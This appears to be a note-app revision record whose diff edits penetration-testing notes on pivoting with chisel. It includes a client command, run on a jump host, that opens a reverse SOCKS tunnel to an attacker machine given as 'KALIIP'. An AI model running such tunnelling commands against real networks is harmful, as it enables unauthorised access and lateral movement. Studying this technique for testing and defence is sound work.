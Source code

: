 id: 3f5700b14b0346c7bcb13c940d3532ea
parent_id: bd5532652fe040b99890df65e118a605
item_type: 1
item_id: 41f15369905441ee846f3f0266b97d27
item_updated_time: 1658217527272
title_diff: "[]"
body_diff: "[{\"diffs\":[[0,\"r socks5\"],[1,\", or maintain the socks4 proxy\"],[0,\"\\\n\\\n> sock\"]],\"start1\":213,\"start2\":213,\"length1\":16,\"length2\":46},{\"diffs\":[[0,\"rse\\\n\"],[-1,\"\\\n## Client Setup (on JmpHost)\"],[1,\"> \\\n> \\\\# remove the --socks5 for socks4\\\n\\\n## Client Setup (on JmpHost)\\\n\\\n> chisel.exe client --max-retry-count 1 KALIIP:8000 R:socks\"],[0,\"\\\n\\\nLa\"]],\"start1\":348,\"start2\":348,\"length1\":37,\"length2\":137}]"
metadata_diff: {"new":{},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-07-19T08:07:16.112Z
created_time: 2022-07-19T08:07:16.112Z
type_: 13